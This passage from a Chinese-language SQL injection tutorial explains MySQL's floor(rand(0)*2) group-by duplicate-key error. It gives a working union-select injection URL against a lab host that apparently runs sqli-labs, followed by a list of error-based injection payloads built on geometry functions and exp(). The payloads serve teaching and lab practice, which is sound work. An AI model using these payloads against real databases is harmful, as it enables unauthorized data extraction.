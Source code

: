 首次执行时，由于我们之前知道随机数生成的顺序所以这里第一次肯定是为 0 的，mysql 官方有说明查询使用 rand 和 group by 的时候，也就是被计算多次的时候 floor(rand(0)\*2) 会被执行一次，但是如果 group by 的表中没有记录，那么就会再被执行一次插入记录。

![image-20220602133759663.png](assets/1706846040-d01000529006f8ace48daba2a7878f7c.png)

看一下上面的表格在第三次查询为空的时候，又执行了一次做了一个插入的动作，插入的内容也就是 0 1 1 0 1 最后这个`1`的位置拼接的内容 1security，这里有的人可能会有疑问为什么不累加到 count 了，因为这里的 1security 是插入的！！！插入！，所以已经存在这个主键了，再插入就会报错。

```plain
http://10.211.55.27/Less-1/?id=-1%27%20union%20select%201,count(*),concat(floor(rand(0)*2),database())as%20x%20from%20information_schema.tables%20group%20by%20x%20--+
```

![image-20220602134409337.png](assets/1706846040-be99eeaa237509f47e086b1d86b24ef3.png)

下面列一下其他几种报错注入的利用

```plain
##geometrycollection()
and geometrycollection((select * from(select * from(select user())a)b));

##multipoint()
and multipoint((select * from(select * from(select user())a)b));

#polygon()
and polygon((select * from(select * from(select user())a)b));

#multipolygon()
and multipolygon((select * from(select * from(select user())a)b));

#linestring()
and linestring((select * from(select * from(select user())a)b));

#multilinestring()
and multilinestring((select * from(select * from(select user())a)b));

#exp()
and exp(~(select * from(select user())a));
```

#### 宽字节注入
